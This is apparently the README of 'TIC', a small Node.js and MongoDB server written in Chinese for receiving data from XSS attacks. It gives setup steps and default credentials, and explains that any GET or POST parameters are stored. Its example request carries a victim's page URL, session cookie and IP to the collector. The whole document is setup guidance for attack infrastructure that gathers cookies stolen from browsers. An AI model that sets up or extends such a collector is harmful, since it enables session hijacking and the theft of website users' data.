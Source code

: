 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1.安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1
2.安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
```
use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改TIC.js中的这段代码.  
mongoose.connect('mongodb://TIC:ThisIsTIC@localhost/TIC');
```
  
  
3.进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
```
如果需要修改端口,可以找到下面这段代码,把8080修改成你想要变更的端口.  
http.createServer(server).listen(8080);
```
  
  
4.本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun
```
你可以在TIC.js中找到下面这段代码修改为你想要变更的账号密码.
if (!credentials || credentials.name !== '0x_Jin' || credentials.pass !== 'wooyun')
```
  
  
5.如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6.关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
```
example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  
除了GET外,POST也可以.
```
  
  
7.结果分为两大部分,第一部分为header,第二部分为request
```
header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.
```

  
